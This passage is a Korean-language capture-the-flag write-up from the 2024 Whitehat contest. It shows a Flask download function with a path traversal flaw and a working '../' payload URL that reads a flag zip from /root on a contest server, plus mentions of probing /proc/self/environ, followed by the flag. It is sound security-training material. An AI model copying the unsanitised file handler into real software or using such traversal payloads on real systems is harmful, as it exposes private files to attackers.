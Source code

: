 ```python
def download():
    filename = request.args.get('filename')

    if not filename:
        abort(400)

    file_path = os.path.join('static', filename)
    
    if not os.path.isfile(file_path):
        return abort(404)
    
    return send_file(file_path, as_attachment=True)
    
if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```
디렉터리 리스팅 취약점이 존재하여 경로를 조작하며 flag 파일 찾기를 했다. `/proc/self/environ`, `/app`의 subdirectory들을 찾아보았는데도 없었다.    

팀원(@DevDori)분이 `/root` 디렉터리에 ZIP 파일 형태의 플래그를 찾았고, ZIP 파일 내부에 플래그가 있었다. (따라가느라 급급...)      
    
### Exploit Code        
```
http://13.125.226.130:10002/download?filename=../../../../../../../../root/flag-c368132241ec56040bdd.zip
```     
     
### Flag
whitehat2024{1330E4DE5DD8DF533D8D5C5388420249E71135B7}    
      
      
<a id="KTEC-admin-dashboard"></a>               
         
# KTEC-admin-dashboard     
     
굉장히 삽질을 많이한 문제 ...      
     
<img src="/assets/images/ctf/2024/whitehat/KTEC-admin-dashboard/admin_dashboard.jpg" width=700px>
